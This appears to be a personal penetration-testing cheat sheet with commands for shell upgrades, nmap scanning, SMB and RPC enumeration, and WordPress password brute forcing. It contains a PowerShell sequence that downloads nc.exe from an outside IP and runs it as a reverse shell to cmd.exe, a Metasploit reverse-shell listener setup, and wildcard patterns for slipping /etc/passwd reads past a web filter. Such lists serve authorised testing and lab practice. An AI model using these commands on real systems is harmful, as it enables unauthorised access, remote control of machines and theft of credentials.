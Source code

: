 ## Some commands which I used frequently 

### python command for bash 

```python3 -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/sh")' ```

### spawn nicer shell 

```/usr/bin/script -qc /bin/bash /dev/null```

### to get nobody removed in NFS share

sudo mount -t nfs -o nolock,nfsvers=3 10.1.1.72:/home home/

sudo mount -t cifs //< IP >/< SHARE > /tmp/share


### msf meterpreter shell listener

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set payload windows/shell/reverse_tcp


### Search 
grep -rn './' -ie 'whatever' -B 2 -A 2

grep -rn './' -ie 'password' -B 2 -A 2


### nmap

Scan using default safe scripts 		:	nmap -sV -sC 

Scan 100 most common ports (Fast): 		:	nmap -F 
Scan using TCP connect 					:	nmap -sT 
Scan using TCP SYN scan (default) 		:	nmap -sS 
Scan UDP ports 							:	nmap -sU -p 123,161,162 
Scan selected ports - ignore discovery	:	nmap -Pn -F 

Scan with a set of scripts (SMB)		:	nmap -sV --script=smb* 
Scan with a set of scripts (FTP)		:	nmap -sV --script=ftp* 

Scan with a set of scripts (smb os)		:	nmap --script smb-os-discovery.nse -p445 

recon script VULN 						:	nmap -Pn -p445 --script vuln -oN reconop.txt 


### SMB as used for msf

set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1

### SMB as cmd

smbclient //1.1.1.4/ < folder name >

### smbmap
while read i; do smbmap -H $i 2>/dev/null; done < < Target IP File > | grep -v Finding | grep -v Authentication


### where command in win to search type of files
where /r c:\ proof.txt


### Wordpress brute force

wpscan --url http://10.11.1.251/wp --rua -P /usr/share/wordlists/rockyou.txt


### shell from powershell 

first upload nc

PS C:~> iwr http://10.10.14.19:7331/nc.exe -outf .\cute.exe
PS C:~> start-process -filepath .\cute.exe -argumentlist "10.10.14.9 4447 -e cmd.exe" -nonewwindow


### Dropbox links

ln -s < path of dropbox folder >  < link name > ~/data

ln -s /mnt/hgfs/2020/ ~/data


### file browser for jsp


java -jar file-browser.jar


### gcc
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
gcc -Wl,--hash-style=both -o exp

### rpc commands

rpcclient -U "" -N 10.10.10.222

> enumdomusers
> enumdomgroups
> querygroup 0x200  // query groupname
> querygroupmem 0x200 // query group members
> queryuser 0x1f4 //query users


### /etc/passwd WAF restriction? Use these:
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?

### paths for .bashrc

export PATH=$PATH:/home/kali/.local/bin/
export PATH=$PATH:~/data/tools/
export PATH=$PATH:~/data/exploits/
export PATH=$PATH:~/data/myscrs/
export PATH=$PATH:/usr/opt/

export HISTCONTROL=ignoreboth:erasedups

### paths for .zshrc

export PATH=Users/repos/ringojs/bin/ringo-admin:$PATH

export PATH=/home/kali/.local/bin/:$PATH
export PATH=~/data/tools/:$PATH
export PATH=~/data/exploits/:$PATH
export PATH=~/data/myscrs/:$PATH
export PATH=/usr/opt/:$PATH
